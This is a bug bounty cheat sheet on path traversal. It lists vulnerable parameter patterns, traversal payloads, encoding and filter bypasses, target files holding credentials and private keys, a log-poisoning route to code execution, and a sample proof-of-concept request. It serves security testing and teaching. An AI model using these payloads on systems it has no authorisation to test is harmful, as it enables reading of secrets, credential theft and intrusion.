

> Source: https://bugbounty.info/Attack-Surface/Web/File-Operations/Path-Traversal

# Path Traversal

Path traversal (directory traversal) lets you read files outside the intended directory by injecting `../` sequences into file path parameters. The classic target is `/etc/passwd`  -  not because it's useful, but because it proves arbitrary file read. The real prizes are source code, config files with credentials, private keys, and application secrets.

## Where to Find It

Any parameter that looks like it resolves to a file or path:

```bash
/download?file=report.pdf
/view?page=home
/assets?name=logo.png
/api/template?name=email_welcome
/export?format=csv&path=exports/report
/include?module=sidebar
```

Also headers: `X-File-Name`, custom headers in APIs, filename fields in multipart uploads.



## Basic Payloads

```text
../../../etc/passwd
../../etc/passwd
../etc/passwd
../../../../../etc/passwd   (go deep  -  cost is nothing)
```

On Windows targets:

```text
..\..\..\windows\system32\drivers\etc\hosts
..\..\..\windows\win.ini
../../../../../../windows/win.ini
```

## Encoding Bypasses

When the app strips `../` literally, try encoded variants:

```bash
# URL encoding
..%2f..%2f..%2fetc%2fpasswd
..%252f..%252fetc%252fpasswd   (double encoded  -  %25 decodes to %, giving %2f)
 
# Unicode / overlong UTF-8
..%c0%af..%c0%afetc%c0%afpasswd   (overlong encoding of /)
..%ef%bc%8f../etc/passwd           (fullwidth solidus U+FF0F)
 
# Mixed slashes (Windows)
..\/..\/etc\/passwd
..\/../etc/passwd
 
# Null byte (old PHP/C)
../../../etc/passwd%00.jpg
 
# Path normalization tricks
....//....//etc/passwd    (after stripping ../ becomes ../../)
....//...//.../etc/passwd
```

The `....//` trick works when the filter strips `../` once without re-checking: `....//` -> strip `../` -> `../` remains.

## OS-Specific Targets

### Linux / macOS

```bash
/etc/passwd                         -  users, proves traversal
/etc/shadow                         -  hashed passwords (needs root)
/etc/hosts                          -  network config
/proc/self/environ                  -  environment variables (secrets, keys)
/proc/self/cmdline                  -  process arguments
/proc/self/maps                     -  loaded libraries (helps with ASLR bypass)
/home/[user]/.ssh/id_rsa            -  private keys
/var/log/apache2/access.log         -  log injection -> RCE via log poisoning
/var/www/html/config.php            -  app config
/app/config/database.yml            -  DB credentials (Rails)
/app/.env                           -  environment file with secrets
```

### Windows

```text
C:\windows\win.ini
C:\windows\system32\drivers\etc\hosts
C:\inetpub\wwwroot\web.config       -  IIS config, connection strings
C:\xampp\htdocs\config.php
C:\users\[user]\.ssh\id_rsa
```

## Absolute Path Injection

Some apps accept absolute paths directly  -  no traversal needed:

```bash
/download?file=/etc/passwd
/view?path=C:\windows\win.ini
```

Always test absolute paths before spending time on relative traversal.

## Determining Traversal Depth

You need to go back to the filesystem root. If the app is running from `/var/www/html/downloads/`, you need `../../../../etc/passwd` (4 levels). But going too deep doesn't hurt  -  `/` followed by more `../` stays at `/`. I always start with 8 levels deep:

```text
../../../../../../../../etc/passwd
```

If that works, binary search down to find the actual depth for cleanup in the PoC.

## What to Read After Confirming Traversal

Once you have LFI, escalate the impact:

1. `/proc/self/environ`  -  may contain `SECRET_KEY`, `DATABASE_URL`, `AWS_ACCESS_KEY_ID`
2. App config files  -  `.env`, `database.yml`, `config.php`, `appsettings.json`
3. Web server config  -  `nginx.conf`, `apache2/sites-enabled/*.conf` (reveals other vhost paths)
4. SSH private keys  -  `/home/deployer/.ssh/id_rsa`
5. Source code  -  knowing the path from error messages or `/proc/self/maps`

For log poisoning -> RCE: read the access log, inject a PHP payload into User-Agent or URL, then include the log file via LFI. This only works if the file is served through PHP `include()`.

## PoC

```http
GET /download?file=../../../../etc/passwd HTTP/1.1
Host: target.com
```

Screenshot the response. If it shows `/etc/passwd` contents, that's your PoC. For higher impact, retrieve a secrets file:

```http
GET /download?file=../../../app/.env HTTP/1.1
```

## Checklist

- Find all parameters that accept filename/path input
- Test basic `../../../etc/passwd` traversal
- Test absolute path injection: `/etc/passwd` directly
- If basic fails: try URL encoding, double encoding, `....//` normalization bypass
- Test null byte termination on legacy apps
- After confirmation: read `/proc/self/environ` and app config files
- Look for private keys, API keys, DB credentials
- On Windows targets: test backslash variants and Windows-specific paths

## See Also

- [File Upload Attacks](../../../Attack-Surface/Web/File-Operations/File-Upload)
- [XXE](../../../Attack-Surface/Web/File-Operations/XXE)
- [SSRF](../../../Attack-Surface/Web/SSRF/SSRF)
